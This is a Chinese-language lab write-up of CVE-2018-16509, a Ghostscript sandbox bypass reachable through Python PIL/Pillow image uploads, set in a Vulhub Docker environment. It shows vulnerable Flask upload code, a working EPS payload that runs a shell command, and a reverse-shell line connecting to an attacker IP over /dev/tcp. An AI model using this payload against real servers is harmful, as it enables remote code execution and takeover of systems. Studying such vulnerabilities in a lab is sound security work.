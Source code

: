 # Python PIL 远程命令执行漏洞 CVE-2018-16509

## 漏洞描述

通过 Ghostscript CVE-2018-16509 执行 Python PIL/Pillow 远程 Shell 命令。

Ghostscript 是一套基于 Adobe、PostScript 及可移植文档格式（PDF）的页面描述语言等而编译成的免费软件。Ghostscript 常常作为另一个软件（例如 ImageMagick）的依赖项安装在生产服务器中（例如 `/usr/local/bin/gs`，或 `/usr/bin/gs`) 。

CVE-2018-16509 漏洞允许在 v9.24 之前的 Ghostscript 中通过 -dSAFER 实现绕过，通过处理 PostScript 中的失败恢复 (grestore) 来执行任意命令，禁用 LockSafetyParams ，避免无效访问。

此漏洞存在于 ImageMagick 等库或带有 Ghotscript 的编程语言中的图像库（本例中为 PIL/Pillow）中。

## 环境搭建

Vulhub 运行环境：

```
docker-compose up -d
```

运行后，访问 `http://your-ip:8000/` 即可看到一个上传页面。

## 漏洞分析

可以通过上传 [rce.jpg](https://github.com/vulhub/vulhub/blob/master/python/PIL-CVE-2018-16509/rce.jpg) （一个 EPS 图像，并不是一个真正的 JPG）来在服务器中执行命令 `touch /tmp/got_rce`。

通过命令 `docker container ls` 获取容器 ID。

如果想执行其他命令，可以在 rce.jpg 中修改命令 `touch /tmp/got_rce` 为任意其他命令。

可以参考 Tavis Ormandy 在 [oss-security](https://seclists.org/oss-sec/2018/q3/142) 中对漏洞的解释。

可以在 [EPSImagePlugin.py](https://github.com/python-pillow/Pillow/blob/0adeb82e9886cdedb3917e8ddfaf46f69556a991/src/PIL/EpsImagePlugin.py) 中查看 PIL/Pillow 中 Ghostscript 的源代码。

易受攻击的代码如下，例如 app.py：

```python
@app.route('/', methods=['GET', 'POST'])
def upload_file():
    if request.method == 'POST':
        file = request.files.get('image', None)

        if not file:
            flash('No image found')
            return redirect(request.url)

        filename = file.filename
        ext = path.splitext(filename)[1]

        if (ext not in ['.jpg', '.jpeg', '.png', '.gif', '.bmp']):
            flash('Invalid extension')
            return redirect(request.url)

        tmp = tempfile.mktemp("test")
        img_path = "{}.{}".format(tmp, ext)

        file.save(img_path)

        img = Image.open(img_path)
        w, h = img.size
        ratio = 256.0 / max(w, h)

        resized_img = img.resize((int(w * ratio), int(h * ratio)))
        resized_img.save(img_path)
```

上传文件将通过 `img = Image.open(img_path)` 加载。PIL 将自动检测图片是否为 EPS 图片（例如，文件头为 `%!PS-Adobe-3.0 EPSF-3.0`）。随后，将调用 EpsImageFile 类 EPSImagePlugin.py 文件中的 `_open()` 函数。

为了避免触发错误 `raise IOError("cannot determine EPS bounding box")`，文件中将加入边界框信息（例如，`%%BoundingBox: -0 -0 100 100`）。

EPS 图像将被 EPSImagePlugin.py 文件中的 `Ghostscript` 函数的 `subprocess` 进行处理：

```python
    # Build Ghostscript command
    command = ["gs",
               "-q",                         # quiet mode
               "-g%dx%d" % size,             # set output geometry (pixels)
               "-r%fx%f" % res,              # set input DPI (dots per inch)
               "-dBATCH",                    # exit after processing
               "-dNOPAUSE",                  # don't pause between pages
               "-dSAFER",                    # safe mode
               "-sDEVICE=ppmraw",            # ppm driver
               "-sOutputFile=%s" % outfile,  # output file
               "-c", "%d %d translate" % (-bbox[0], -bbox[1]),
                                             # adjust for image origin
               "-f", infile,                 # input file
               "-c", "showpage",             # showpage (see: https://bugs.ghostscript.com/show_bug.cgi?id=698272)
               ]


    ....

    try:
        with open(os.devnull, 'w+b') as devnull:
            startupinfo = None
            if sys.platform.startswith('win'):
                startupinfo = subprocess.STARTUPINFO()
                startupinfo.dwFlags |= subprocess.STARTF_USESHOWWINDOW
            subprocess.check_call(command, stdin=devnull, stdout=devnull,
                                  startupinfo=startupinfo)
```

以上代码将在 Image.py 文件中的 `load` 被调用的时候才会被调用，所以只打开图片不会触发漏洞。` resize`、 `crop`、`rotate`、和 `save` 函数将会调用 `load` ，并触发漏洞。

结合 Tavis Ormandy 的 POC，我们可以制作 `rce.jpg`，实现远程 shell 命令执行。

```
%!PS-Adobe-3.0 EPSF-3.0
%%BoundingBox: -0 -0 100 100

userdict /setpagedevice undef
save
legal
{ null restore } stopped { pop } if
{ legal } stopped { pop } if
restore
mark /OutputFile (%pipe%touch /tmp/got_rce) currentdevice putdeviceprops
```

成功执行命令 `touch /tmp/got_rce`：

![image-20220228165944812](images/202202281659859.png)

将 `touch /tmp/tmp/got_rce` 命令改为反弹 shell 命令：

```
mark /OutputFile (%pipe%bash -c "bash -i >& /dev/tcp/192.168.174.128/9999 0>&1") currentdevice putdeviceprops
```

成功接收反弹 shell：

![image-20220228170145831](images/202202281701913.png)
